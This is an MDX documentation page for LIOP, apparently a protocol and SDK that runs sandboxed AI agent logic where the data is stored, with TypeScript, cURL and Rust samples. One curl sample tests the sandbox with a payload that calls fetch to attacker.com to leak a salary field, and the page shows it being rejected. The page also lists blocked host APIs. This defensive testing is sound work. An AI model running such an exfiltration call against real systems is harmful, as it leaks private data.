

export const LiopBrandHeader = () => {
  const [version, setVersion] = useState("v2.5.0");
  useEffect(() => {
    fetch("https://registry.npmjs.org/@nekzus/liop/latest")
      .then((res) => res.json())
      .then((data) => {
        if (data?.version) setVersion(`v${data.version}`);
      })
      .catch(() => {});
  }, []);

  return (
    

      

        

          
          
        

      

      

        <a href="https://www.npmjs.com/package/@nekzus/liop" target="_blank" rel="noopener noreferrer" className="px-2.5 py-1 rounded-md bg-emerald-500/10 text-emerald-600 dark:text-emerald-400 border border-emerald-500/20 hover:bg-emerald-500/20 transition-colors">
          npm: {version}
        </a>
        <a href="https://github.com/Nekzus/LIOP" target="_blank" rel="noopener noreferrer" className="px-2.5 py-1 rounded-md bg-zinc-100 dark:bg-zinc-800/60 text-zinc-700 dark:text-zinc-300 border border-zinc-300 dark:border-zinc-700/60 hover:bg-zinc-200 dark:hover:bg-zinc-800 transition-colors">
          GitHub: Open Source
        </a>
        
          License: Apache-2.0
        
        
          ML-KEM-768
        
      

    

  );
};

export const QuickstartBanner = () => (
  

    

      

        Quickstart Guide
        
          Deploy your first Zero-Trust LIOP Client and Server in under 3 minutes using the official TypeScript SDK.
        
      

    

    

      <a href="/getting-started/quickstart" className="px-5 py-2.5 bg-emerald-500 hover:bg-emerald-400 text-zinc-950 rounded-full font-semibold text-sm shadow transition-all duration-200 whitespace-nowrap text-center">
        Get Started
      </a>
      <a href="https://www.npmjs.com/package/@nekzus/liop" target="_blank" rel="noopener noreferrer" className="px-5 py-2.5 bg-white dark:bg-zinc-800 hover:bg-zinc-100 dark:hover:bg-zinc-700 text-zinc-900 dark:text-zinc-100 border border-zinc-300 dark:border-zinc-700 rounded-full font-semibold text-sm shadow-sm transition-all duration-200 whitespace-nowrap text-center">
        Install NPM
      </a>
    

  

);

export const ProtocolReleaseStrip = () => {
  const [version, setVersion] = useState("v2.5.0");
  useEffect(() => {
    fetch("https://registry.npmjs.org/@nekzus/liop/latest")
      .then((res) => res.json())
      .then((data) => {
        if (data?.version) setVersion(`v${data.version}`);
      })
      .catch(() => {});
  }, []);

  return (
    

      <svg xmlns="http://www.w3.org/2000/svg" viewBox="0 0 24 24" fill="none" stroke="currentColor" strokeWidth="2" strokeLinecap="round" strokeLinejoin="round" className="h-4 w-4 shrink-0 text-emerald-500">
        <path d="M12 2v20M17 5H9.5a3.5 3.5 0 0 0 0 7h5a3.5 3.5 0 0 1 0 7H6" />
      </svg>
      
        <strong>LIOP {version} Release:</strong> Native Dual-Era MCP Handshake (2026-07-28 &amp; 2025-11-25) with ML-KEM-768 Post-Quantum encryption. View the <a href="/cookbook/mcp-migration" className="font-semibold underline underline-offset-4 decoration-1 text-emerald-600 dark:text-emerald-400 hover:text-emerald-500 dark:hover:text-emerald-300">Migration Cookbook</a>.
      
    

  );
};

export const UseCaseTabs = () => {
  const [selected, setSelected] = useState(0);
  const useCases = [
    {
      label: "In-Situ Big Data",
      description: "Dispatches sandboxed filtering directly to remote data origins. The model receives only aggregated mathematical summaries (312 bytes egress, 184 tokens) instead of parsing raw multi-megabyte log dumps.",
      codeExamples: [
        `import { LiopClient } from "@nekzus/liop";

const client = new LiopClient();
await client.connect("127.0.0.1:15021");

// In-situ logic dispatched via standard callTool envelope
const result = await client.callTool({
  name: "filter_telemetry",
  arguments: {
    payload: \`@LIOP{wasi_v1,LogAnomalies}
      // Evaluated in-situ inside Nitro V8 Isolate over 500 MB raw logs
      const anomalies = records
        .filter(r => r.status >= 500 && r.latencyMs > 250)
        .map(r => r.latencyMs);

      return {
        totalAnomalies: anomalies.length,
        p99LatencyMs: anomalies.sort((a, b) => a - b)[Math.floor(anomalies.length * 0.99)] || 0,
        egressBytes: 312 // Only aggregated telemetry crosses the wire
      };
    @END\`
  }
});

console.log("In-Situ Analytics Output:", result.content[0].text);`,
        `# Invoke in-situ query via Border LIO Gateway HTTP/2 proxy
curl -X POST http://127.0.0.1:15018/mcp \\
  -H "Authorization: Bearer $LIOP_OAUTH_TOKEN" \\
  -H "Content-Type: application/json" \\
  -d '{
    "jsonrpc": "2.0",
    "id": 1,
    "method": "tools/call",
    "params": {
      "name": "filter_telemetry",
      "arguments": {
        "payload": "@LIOP{wasi_v1,LogAnomalies}\\nreturn { errors: records.filter(r => r.status >= 500).length };\\n@END"
      }
    }
  }'`,
        `use liop_client::{LiopRpcClient, CallToolRequest};

let mut client = LiopRpcClient::connect("http://127.0.0.1:15021").await?;
let request = CallToolRequest {
    name: "filter_telemetry".into(),
    arguments: serde_json::json!({
        "payload": "@LIOP{wasi_v1,LogAnomalies}\nreturn records.filter(|r| r.status >= 500).count();\n@END"
    }),
};

let response = client.call_tool(request).await?;
println!("Attested output: {:?}", response.content);`
      ]
    },
    {
      label: "Zero-Trust AST Sandbox",
      description: "Injected logic executes in an isolated V8 sandbox where host APIs (fetch, eval, process) are poisoned and 11 native prototypes are immutably frozen against prototype pollution.",
      codeExamples: [
        `import { LiopServer } from "@nekzus/liop";
import { z } from "zod";

const server = new LiopServer({
  name: "FinancialEnclave_01",
  version: "2.5.0",
});

// Load sensitive origin data inside the hardened V8 Isolate
server.setSandboxData(financialRecords);

server.tool(
  "aggregate_payroll",
  "Computes department totals without exfiltrating individual salaries",
  { payload: z.string() },
  async ({ payload }) => {
    // 25 host APIs (fetch, eval, process) are poisoned; 11 prototypes frozen
    return { content: [{ type: "text", text: "AGGREGATED_OUTPUT" }] };
  },
  { enforceAggregationFirst: true }
);

await server.connectToMesh({ port: 15021 });`,
        `# Test sandbox rejection of unauthorized host access attempts
curl -X POST http://127.0.0.1:15018/mcp \\
  -H "Content-Type: application/json" \\
  -d '{
    "jsonrpc": "2.0",
    "id": 1,
    "method": "tools/call",
    "params": {
      "name": "aggregate_payroll",
      "arguments": {
        "payload": "@LIOP{wasi_v1,Leak}\\nfetch(\\"https://attacker.com/leak?data=\\" + records[0].salary);\\n@END"
      }
    }
  }'
# Response: 403 Forbidden [AST_ALLOWLIST_VIOLATION: Identifier "fetch" is poisoned]`,
        `use liop_core::sandbox::{WasiSandbox, SandboxConfig};

let config = SandboxConfig::default()
    .with_fuel_limit(100_000)
    .with_memory_cap(128 * 1024 * 1024);

let mut sandbox = WasiSandbox::new(config)?;
sandbox.freeze_prototypes()?;
let result = sandbox.execute_module(&wasm_bytes)?;`
      ]
    },
    {
      label: "ZK-Receipt Verification",
      description: "Computations return a cryptographic receipt binding the exact AST logic hash and output payload to the ephemeral quantum-safe session secret (ML-KEM-768).",
      codeExamples: [
        `import { LiopClient } from "@nekzus/liop";

const client = new LiopClient();
await client.connect("127.0.0.1:15021");

const result = await client.callTool({
  name: "compute_risk_score",
  arguments: { accountId: "ACC-9021" },
});

// Receipts are cryptographically verified using ML-KEM-768 session secrets
const isVerified = client.verifier.verifyReceipt(result);
if (!isVerified) throw new Error("Tampered compute: ZK receipt invalid");

console.log("Cryptographic attestation valid. Proof binding confirmed.");`,
        `# Query receipt verification against border gateway notary
curl -X POST http://127.0.0.1:15018/v1/receipts/verify \\
  -H "Authorization: Bearer $LIOP_OAUTH_TOKEN" \\
  -H "Content-Type: application/json" \\
  -d '{
    "receipt": "0x8f2d9ca4...7b",
    "logicHash": "sha256-e3b0c44298fc1c149afbf4c8996fb92427ae41e4649b934ca495991b7852b855",
    "outputSummary": "{\\"totalAnomalies\\": 14}"
  }'`,
        `use liop_core::crypto::{ZkReceipt, MlKem768SharedSecret};

let proof = ZkReceipt::from_bytes(&response.receipt)?;
let is_valid = proof.verify_hmac_sha256(&shared_secret, &response.payload)?;
assert!(is_valid, "Cryptographic attestation failed");`
      ]
    },
    {
      label: "Dual-Era MCP Bridge",
      description: "Wraps standard @modelcontextprotocol/sdk instances into sovereign peer nodes. Tool definitions remain 100% untouched while adding automatic PII egress filters and P2P DHT announcement.",
      codeExamples: [
        `import { McpServer } from "@modelcontextprotocol/sdk/server/mcp.js";
import { LiopMcpBridge, PII_PRESETS } from "@nekzus/liop/bridge";
import { z } from "zod";

const legacyServer = new McpServer({
  name: "SupportTools",
  version: "1.0.0",
});

// Original tool definitions remain 100% untouched
legacyServer.tool("get_customer_history", { customerId: z.string() }, async ({ customerId }) => {
  return { content: [{ type: "text", text: JSON.stringify(db.lookup(customerId)) }] };
});

// Wrap with LIOP Bridge: publishes to P2P mesh and activates Egress PII filters
const bridge = new LiopMcpBridge(legacyServer, {
  publishToMesh: true,
  meshIdentity: "SupportEnclave_01",
  security: {
    forbiddenKeys: ["tax_id", "credit_card"],
    piiPatterns: PII_PRESETS.US_COMPLIANT,
    enableNerScanning: true,
  },
});

await bridge.connect();`,
        `# Connect desktop clients (Claude / Cursor) via stdio bridge
npx @nekzus/liop bridge --stdio --config ./claude_desktop_config.json`,
        `use liop_bridge::McpBridge;

let bridge = McpBridge::new("SupportEnclave_01")
    .with_egress_filter(PiiPreset::UsCompliant)
    .bind_stdio()?;
bridge.run().await?;`
      ]
    }
  ];

  const active = useCases[selected];

  return (
    <section className="mx-auto w-full p-4 sm:p-6 rounded-xl bg-zinc-50 dark:bg-[#0c0e12] border border-zinc-200 dark:border-zinc-800 flex flex-col lg:flex-row gap-4 sm:gap-6 not-prose mb-12 shadow-sm dark:shadow-xl">
      <nav className="flex flex-col lg:w-72 lg:shrink-0" aria-label="Use case navigation">
        <h2 className="text-xs font-semibold mb-3 text-zinc-500 dark:text-zinc-400 uppercase tracking-wider font-mono">
          Core Architecture Workflows
        </h2>
        

          {useCases.map((uc, idx) => (
            <button
              key={uc.label}
              type="button"
              className={`px-3 py-2.5 text-left rounded-lg transition-all duration-200 text-sm font-medium ${
                selected === idx
                  ? "bg-white dark:bg-zinc-800 text-zinc-900 dark:text-zinc-100 border border-zinc-300 dark:border-zinc-700 shadow-sm"
                  : "text-zinc-600 dark:text-zinc-400 hover:bg-zinc-200/60 dark:hover:bg-zinc-850 hover:text-zinc-900 dark:hover:text-zinc-200 border border-transparent"
              }`}
              onClick={() => setSelected(idx)}
            >
              {uc.label}
            </button>
          ))}
        

        

          {active.description}
        

        <a href="/concepts/logic-on-origin" className="hidden lg:block mt-auto text-xs underline text-emerald-600 dark:text-emerald-400 hover:text-emerald-500 dark:hover:text-emerald-300 transition-colors pt-3">
          Read Formal Specification →
        </a>
      </nav>

      

        <CodeGroup>
          <pre className="language-typescript" filename="TypeScript">
            <code>{active.codeExamples[0]}</code>
          </pre>
          <pre className="language-bash" filename="cURL / CLI">
            <code>{active.codeExamples[1]}</code>
          </pre>
          <pre className="language-rust" filename="Rust">
            <code>{active.codeExamples[2]}</code>
          </pre>
        </CodeGroup>
      

    </section>
  );
};

export const ArchitectureGrid = () => (
  

    

      <h2 className="text-xl font-semibold text-zinc-900 dark:text-zinc-100">Protocol Components &amp; Architecture</h2>
    

    

      

        
        <a href="/typescript-sdk/overview" className="text-lg font-semibold text-zinc-900 dark:text-zinc-100 mb-1 hover:underline">
          TypeScript SDK &amp; MCP Bridge
        </a>
        

          High-performance Node.js runtime with worker pool concurrency, dynamic client/server bindings, and seamless legacy MCP server integration.
        

      

      

        
        <a href="/concepts/zero-trust" className="text-lg font-semibold text-zinc-900 dark:text-zinc-100 mb-1 hover:underline">
          Zero-Trust Security &amp; The Shield
        </a>
        

          Six defense-in-depth layers: Guardian AST, V8 Isolate sandboxing with prototype freezing, 4-stage Egress PII filter, and ZK-Receipt seals.
        

      

      

        
        <a href="/concepts/architecture" className="text-lg font-semibold text-zinc-900 dark:text-zinc-100 mb-1 hover:underline">
          Tonic gRPC &amp; P2P Mesh Runtime
        </a>
        

          Binary transport multiplexing over HTTP/2, Kademlia DHT peer discovery with rust-libp2p, and symmetric channel keepalive options.
        

      

      

        
        <a href="/operations/sovereign-deployment" className="text-lg font-semibold text-zinc-900 dark:text-zinc-100 mb-1 hover:underline">
          Sovereign Enclaves &amp; Observability
        </a>
        

          Isolated Docker tri-tier deployment with Swarm PSK, Nitro TEE hardware attestation, and 26-panel Prometheus &amp; Grafana monitoring.
        

      

    

  

);

<LiopBrandHeader />

## Protocol Foundations

The **Logic-Injection-on-Origin Protocol (LIOP)** is a decentralized binary transport mesh designed for Machine-to-Machine (M2M) artificial intelligence. Rather than moving enterprise datasets across the internet into remote LLMs, LIOP inverts distributed computation: **sandboxed WebAssembly logic executes directly at the data origin**, returning exclusively aggregated results verified by cryptographic attestation.

---

### Scaling Limitations of Context Extraction

Agent integration protocols, including the Model Context Protocol (MCP) and REST APIs, rely on **Context-Pulling**: transferring raw datasets (system logs, customer PII, medical records, financial ledgers) over the network so a centralized model can filter and evaluate information on an external server.

In production environments, this operational model faces three structural constraints:

1. **Network Egress and Complexity ($O(N)$ vs $O(1)$)**: Transferring entire database tables or telemetry streams to answer a specific query produces network overhead that scales with database size rather than query complexity.
2. **Context Window Saturation**: Passing unaggregated records directly into model prompts degrades analytical precision, introduces processing latency, and multiplies token overhead.
3. **Data Sovereignty Mandates**: Compliance frameworks including **HIPAA §164.312**, **PCI-DSS v4.0**, and **GDPR Article 9** prohibit exporting unmasked records outside protected network boundaries.

---

### The Logic-Injection-on-Origin Model

LIOP replaces data transfer with local execution through a 3-step computational cycle:

1. **Push Logic**: The agent compiles its query or filtering criteria into a sandboxed WebAssembly micro-module or AST-quantized payload (`@LIOP{...}@END`).
2. **Execute In-Situ**: The origin node processes the logic against local data within an isolated WASI sandbox with restricted global objects, frozen prototypes, and bounded instruction budgets.
3. **Attest & Return**: The origin node streams back **exclusively the synthesized conclusion**, sealed with **ML-KEM-768** post-quantum encryption and an HMAC-SHA256 ZK-Receipt validating execution integrity.

<CardGroup cols={2}>
  <Card title="Traditional MCP: Context-Pulling" icon="arrow-down-to-bracket">
    - **Data Scaling:** $O(N)$ linear network transfer proportional to dataset size
    - **Context Footprint:** High token overhead from unaggregated raw records
    - **Data Exposure:** Sensitive rows and PII transit the external network
    - **Integrity:** Point-to-point TLS without computational execution proof
  </Card>
  <Card title="LIOP: Logic-Injection-on-Origin" icon="bolt">
    - **Data Scaling:** $O(1)$ constant payload size independent of dataset volume
    - **Context Footprint:** Minimal token usage restricted to synthesized results
    - **Data Exposure:** Zero row-level records leave the sovereign enclave
    - **Integrity:** Post-quantum ML-KEM-768 encryption with HMAC-SHA256 ZK-Receipt
  </Card>
</CardGroup>

<QuickstartBanner />

<ProtocolReleaseStrip />

<UseCaseTabs />

<ArchitectureGrid />

---

## Architectural Context

Traditional client-server architectures face severe bottlenecks when integrating autonomous agents. Transferring raw datasets (logs, database dumps, transactional ledgers) over HTTP/JSON for an LLM to parse and filter introduces high latency, excessive bandwidth consumption, and context-window exhaustion.

LIOP inverts this workflow: **compute dispatches to the data source rather than extracting data into the model context.**

<CardGroup cols={2}>
  <Card title="Logic-Injection-on-Origin" icon="bolt">
    Instead of downloading large datasets, Agents compile their reasoning step into a compact WebAssembly (`.wasm`) module or JavaScript payload and push it directly to the data source.
  </Card>
  <Card title="Multi-Layered Security (Tier-1)" icon="shield-halved">
    Zero-Trust AST Sandboxing (WASI), Egress PII verification with compliance algorithms (Luhn, NIST boundaries, and pattern validators), and Post-Quantum cryptography.
  </Card>
  <Card title="Zero-Shot Autonomy" icon="brain">
    LIOP guides remote LLMs during logic generation. If an Agent violates the Logic-Injection paradigm, the Server provides structured feedback to rewrite its payload securely within Sandbox bounds.
  </Card>
  <Card title="Binary High-Performance" icon="rocket">
    Built entirely on compiled Protobuf messages multiplexed over Tonic (gRPC). Eliminates text-based JSON serialization overhead, reducing payload sizes by over 60%.
  </Card>
  <Card title="Multi-Core Scalability" icon="microchip">
    The Node.js SDK leverages a Native Worker Pool (`piscina`), distributing cryptographic operations across background worker threads.
  </Card>
  <Card title="Mathematical Verification" icon="signature">
    Built-in HMAC-SHA256 cryptographic receipts (ZK-Receipts) that prove honest computation. Native ZK-VM integration is on the roadmap.
  </Card>
  <Card title="Decentralized DHT Mesh" icon="network-wired">
    Zero central authorities. Agent and Developer discovery happens instantly and securely over a global `libp2p` Kademlia Distributed Hash Table.
  </Card>
</CardGroup>

---

## Industrial Use Cases

The *Logic-Injection-on-Origin* paradigm inverts traditional distributed compute flows. Instead of extracting raw records across the network to remote models, the protocol dispatches sandboxed logic directly to the infrastructure hosting the data, eliminating network latency, egress costs, and compliance risks.

<CardGroup cols={2}>
  <Card title="Healthcare & Bio-Informatics" icon="heart-pulse">
    **Compliance:** `HIPAA §164.312` · `GDPR Article 9`  
    **Impact:** Zero-exfiltration analytics over 10 years of patient records across distributed hospital nodes. Injected WASM filters compute statistical correlations locally, returning attested conclusions without exposing patient PII.
  </Card>

  <Card title="Financial Auditing & High-Frequency Trading" icon="scale-balanced">
    **Compliance:** `PCI-DSS v4.0` · `SOC 2 Type II`  
    **Impact:** Real-time fraud detection across international interbank ledgers. AI auditors dispatch heuristics directly into secure Nitro Enclaves, evaluating raw ledger entries at wire speed and returning only cryptographic proofs of flagged anomalies.
  </Card>

  <Card title="Edge Computing & Massive IoT Telemetry" icon="satellite-dish">
    **Compliance:** `Sub-GHz Edge Protocols` · `NIST SP 800-207`  
    **Impact:** Autonomous satellites and smart factories generate gigabytes per second. Persistent WASM watchdogs run in orbit and on edge gateways, streaming gRPC alerts only when critical failure signatures are detected.
  </Card>

  <Card title="Decentralized Collaborative Research" icon="dna">
    **Compliance:** `Cross-Enterprise Sovereign Consortium`  
    **Impact:** Pharmaceutical consortia train advanced ML models on combined genomic datasets without sharing proprietary molecular IP. Enclaves compute local gradient steps and exchange only encrypted weights.
  </Card>
</CardGroup>

---

## Next Steps

<CardGroup cols={2}>
  <Card title="Quickstart Guide" icon="forward-step" href="/getting-started/quickstart">
    Launch your first LIOP Server and Client in under 3 minutes using the official SDK.
  </Card>
  <Card title="Architecture Overview" icon="sitemap" href="/concepts/architecture">
    Understand how Kademlia, gRPC, and Wasmtime operate together in the Logic-Injection-on-Origin protocol.
  </Card>
</CardGroup>

<script
  type="application/ld+json"
  dangerouslySetInnerHTML={{
    __html: JSON.stringify({
      "@context": "https://schema.org",
      "@type": "SoftwareSourceCode",
      "name": "LIOP — Logic-Injection-on-Origin Protocol",
      "description": "High-performance, Zero-Trust binary transport mesh for AI Agent communication using WebAssembly Logic-on-Origin execution.",
      "codeRepository": "https://github.com/Nekzus/LIOP",
      "programmingLanguage": ["TypeScript", "Rust"],
      "runtimePlatform": "Node.js 20+, Wasmtime 29+",
      "license": "https://spdx.org/licenses/Apache-2.0.html",
      "author": {
        "@type": "Organization",
        "name": "Nekzus Solutions",
        "url": "https://github.com/Nekzus"
      }
    })
  }}
/>
